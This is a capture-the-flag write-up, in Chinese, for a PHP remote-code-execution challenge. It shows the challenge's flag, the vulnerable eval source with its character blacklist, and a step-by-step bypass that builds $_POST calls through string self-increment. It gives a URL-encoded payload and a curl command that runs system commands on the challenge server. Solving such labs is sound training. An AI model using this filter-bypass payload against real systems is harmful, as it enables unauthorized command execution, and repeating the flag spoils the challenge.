

## flag

MOCSCTF{3ez_r@c-es-you@-good}

## 解題步驟

1. 首先進入題目會自動跳轉到百度頁面，使用Burp Suite抓包後重放請求，觀察響應即可獲取提示



2. 得到提示

```
/s3cret/rce.php
```

3. 訪問得到題目源碼

```
<?php
highlight_file(__FILE__);

if (isset($_GET['MOCSCTF2025'])) {
    $code = $_GET['MOCSCTF2025'];

    if(!preg_match("/[a-zA-Z0-9@#%^&*:{}\-<\?>\"|`~\\\\]/",$code)){

        eval($code);
    }
    else{
        die('hacker！！你想幹嘛！！！');
    }
}
```

4. 經典的自增繞過，這邊演示構造POST的自增繞過方法

```
<?php
//獲取N
$_=(_/_)._;
$_=$_[_];
//自增到O並儲存O
$__=++$_;
//自增到P並儲存PO
$__=++$_.$__;
//獲取_POST
$_++;$_++;
var_dump($_=$__.++$_.++$_);
//得到$_POST[_]($_POST[__])
//$$_[_]($$_[__]);

一步步看懂就可以了
?shell=$_=(_/_)._;$_=$_[_];$__=++$_;$__=++$_.$__;$_++;$_++;$_=_.$__.++$_.++$_;$$_[_]($$_[__]);
url編碼記得對加號進行編碼，不然會被當做空格
?shell=%24_%3D(_%2F_)._%3B%24_%3D%24_%5B_%5D%3B%24__%3D%2B%2B%24_%3B%24__%3D%2B%2B%24_.%24__%3B%24_%2B%2B%3B%24_%2B%2B%3B%24_%3D_.%24__.%2B%2B%24_.%2B%2B%24_%3B%24%24_%5B_%5D(%24%24_%5B__%5D)%3B
```

5. 執行payload

```
GET：?shell=%24_%3D(_%2F_)._%3B%24_%3D%24_%5B_%5D%3B%24__%3D%2B%2B%24_%3B%24__%3D%2B%2B%24_.%24__%3B%24_%2B%2B%3B%24_%2B%2B%3B%24_%3D_.%24__.%2B%2B%24_.%2B%2B%24_%3B%24%24_%5B_%5D(%24%24_%5B__%5D)%3B
POST：
_=system&__=ls /
_=system&__=cat fl49.php
```

```bash

curl -X POST http://127.0.0.1:8082/s3cret/rce.php?MOCSCTF2025=%24_%3D%28_%2F_%29._%3B%24_%3D%24_%5B_%5D%3B%24__%3D%2B%2B%24_%3B%24__%3D%2B%2B%24_.%24__%3B%24_%2B%2B%3B%24_%2B%2B%3B%24_%3D_.%24__.%2B%2B%24_.%2B%2B%24_%3B%24%24_%5B_%5D%28%24%24_%5B__%5D%29%3B -d "_=system&__=cat fl49.php"
```